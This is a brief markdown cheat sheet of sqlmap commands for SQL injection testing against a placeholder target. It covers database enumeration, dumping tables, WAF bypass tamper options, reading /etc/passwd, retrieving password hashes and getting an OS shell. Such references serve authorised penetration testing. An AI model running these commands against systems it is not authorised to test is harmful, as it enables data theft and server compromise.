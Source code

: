 
---
## Basic Usage

```
sqlmap -u "http://target.com/page.php?id=1"
```

## Specify Request Method and Data

```
sqlmap -u "http://target.com/page.php" --data="id=1"
```
- Useful for POST requests.

## Scan a URL from a Request File

```
sqlmap -r request.txt
```

`request.txt` contains raw HTTP request headers/body.

## Database Enumeration

### List Databases

```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

## List Tables in a Database

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> --tables
```

## List Columns in a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --columns
```

## Dump Data from a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --dump
```

## Bypass WAFs / Filters

```
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase
```

## Advanced Features

- `--os-shell`: Get an interactive OS shell
    
- `--os-pwn`: Attempt to gain a full system compromise
    
- `--file-read=/etc/passwd`: Read files from the server
    
- `--passwords`: Retrieve DBMS user password hashes
    
- `--batch`: Skip prompts (useful for scripting)


## Notes
   
- Combine with a proxy (`--proxy=http://127.0.0.1:8080`) to monitor traffic with Burp.
    
- Use `--level` and `--risk` to control the intensity of the test.



